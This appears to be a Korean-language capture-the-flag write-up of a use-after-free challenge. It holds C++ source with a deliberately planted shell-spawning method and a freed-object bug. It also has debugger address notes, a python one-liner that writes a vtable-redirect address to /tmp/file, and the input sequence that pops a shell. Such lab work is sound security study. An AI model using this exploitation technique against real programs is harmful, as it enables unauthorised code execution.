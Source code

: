 
\#include <fcntl.h>
#include <iostream> 
#include <cstring>
#include <cstdlib>
#include <unistd.h>
using namespace std;

class Human{
private:
	virtual void give_shell(){
		system("/bin/sh");
	}
protected:
	int age;
	string name;
public:
	virtual void introduce(){
		cout << "My name is " << name << endl;
		cout << "I am " << age << " years old" << endl;
	}
};

class Man: public Human{
public:
	Man(string name, int age){
		this->name = name;
		this->age = age;
        }
        virtual void introduce(){
		Human::introduce();
                cout << "I am a nice guy!" << endl;
        }
};

class Woman: public Human{
public:
        Woman(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout << "I am a cute girl!" << endl;
        }
};

int main(int argc, char* argv[]){
	Human* m = new Man("Jack", 25);
	Human* w = new Woman("Jill", 21);

	size_t len;
	char* data;
	unsigned int op;
	while(1){
		cout << "1. use\n2. after\n3. free\n";
		cin >> op;

		switch(op){
			case 1:
				m->introduce();
				w->introduce();
				break;
			case 2:
				len = atoi(argv[1]);
				data = new char[len];
				read(open(argv[2], O_RDONLY), data, len);
				cout << "your data is allocated" << endl;
				break;
			case 3:
				delete m;
				delete w;
				break;
			default:
				break;
		}
	}

	return 0;	
}


처음 1을 입력->3을 입력해서 free를 해보자

c25c50(이건 바뀜)->401570->40117a(HUMAN의 give_shell)인데, +8해서 401578->4012d2(MAN의 introduce) 후자가 실행된다.	
	3을 입력하면 c25c50이 401590->40117a 으로 바뀐 후, c25c50이 모두 지워져버린다.	 
c25ca0->401550->40117a(HUMAN의 give_shell)인데, +8해서 401558->401376(WOMAN의 introduce)이 실행된다. 
	이 또한, 3을 입력하면, c25ca0이 401590->40117a으로 바뀐 후, c25ca0이 모두 지워버린다.

1->3 delete하지 않고, 2를 할 경우
1->2 c25ca0보다 훨씬 뒤에 입력이 된다.
b40c50, b40ca0일때 -> b414e0 b41510
/tmp/file을 만드는 법
python -c 'print "AAAA"' > /tmp/file

1->3->2 c25ca0에 AAAA입력 된다. 1->3->2->2 c25ca0에 AAAA입력, c25c50에 AAAA입력
Use after free를 이용!!(free된 후, free된 부분에 덮어써진다.)
그러면 c25c50에 0x401568이 입력되면, +8인 0x401570이 실행되고, 0x40117a가 실행되어 쉘이 따진다!

python -c 'print "\x68\x15\x40"' > /tmp/file
./uaf 3 /tmp/file
1->3->2->2->1
